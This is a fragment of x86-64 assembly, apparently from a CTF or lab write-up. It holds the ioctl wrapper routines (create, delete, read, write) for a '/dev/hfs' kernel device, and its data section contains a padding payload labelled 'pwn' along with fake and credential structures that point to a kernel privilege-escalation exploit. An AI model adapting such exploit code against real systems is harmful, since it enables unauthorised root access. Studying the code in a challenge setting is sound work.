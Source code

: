 ```nasm
	mov rsi, a
        mov rdx, 9
        mov rax, 1
        syscall
	ret

create:
	mov rdi, 3
	mov rsi, 0xABCD0001
	mov rdx, arg
	mov rax, 16
	syscall
	ret
delete:
	mov rdi, 3
	mov rsi, 0xABCD0002
	mov rdx, arg
	mov rax, 16
	syscall
	ret
read:
	mov rdi, 3
	mov rsi, 0xABCD0003
	mov rdx, arg
	mov rax, 16
	syscall
	ret
write:
	mov rdi, 3
	mov rsi, 0xABCD0004
	mov rdx, arg
	mov rax, 16
	syscall
	ret


section .data

pwn:	db	"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" , 0x40 , 0
fake:	dq	0 , 0 , 8
arg:	dq	0 , 0 , 0
cred:	dq	0 , 0 , 0 , 0

a:	dq	0 , 0xa
i:	dq	0
base:	dq	0 , 0xa

dev:    db      "/dev/hfs",0

```
![](https://i.imgur.com/Djl89aF.png)
